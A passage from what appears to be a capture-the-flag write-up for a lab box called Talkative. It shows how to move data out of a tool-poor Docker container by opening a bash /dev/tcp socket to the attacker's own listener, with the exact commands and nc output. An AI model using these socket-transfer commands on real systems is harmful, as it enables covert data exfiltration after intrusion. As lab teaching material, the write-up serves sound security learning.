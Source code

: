 Again, I have a shell in a Docker container that is relatively empty. `/root` has nothing of interest, and there are no folders in `/home`.

This container also has very limited tools. No `nc`, `wget`, `curl`, which removes many of the standard ways I would upload files to a box.

The box does have `node`, `perl`, and `bash`, each of which would provide ways to upload. I’ll show `bash` since that’s what I like best, and it’s most common to find in this scenario.

#### bash Upload

[This gist](https://gist.github.com/jadell/871512) gives a clean and simple way to write to and from a socket using just bash.

To show this, I’ll start `nc` listening on 9001 on my host. From Talkative, I’ll run `exec 3<>/dev/tcp/10.10.14.6/9001`, which returns without any message. At `nc`, it’s connected:

```

oxdf@hacky$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.155 60860

```

At this point, I’ve created a file descriptor (3), and have both in and out for it redirecting to `/dev/tcp/10.10.14.6/9001`. So reading and writing to 3 will read and write to this special file, which will represents a TCP socket between Talkative and my host. For this to work, the socket has to open, so it has, and that’s the “Connection received” message.

I can write to the descriptor / socket with something like `echo "test!" >&3`, and it comes out on my host:

```

Connection received on 10.10.11.155 60860
test!

```

If I run `cat <&3`, then it will hang, waiting for input from the socket. Because `nc` was run without any input, I can go into that window and type a message:

```

Connection received on 10.10.11.155 60860
test!
Hello from hacky!

```

And it’s sent back to Talkative:

```

root@c150397ccd63:/dev/shm# cat <&3
Hello from hacky!

```
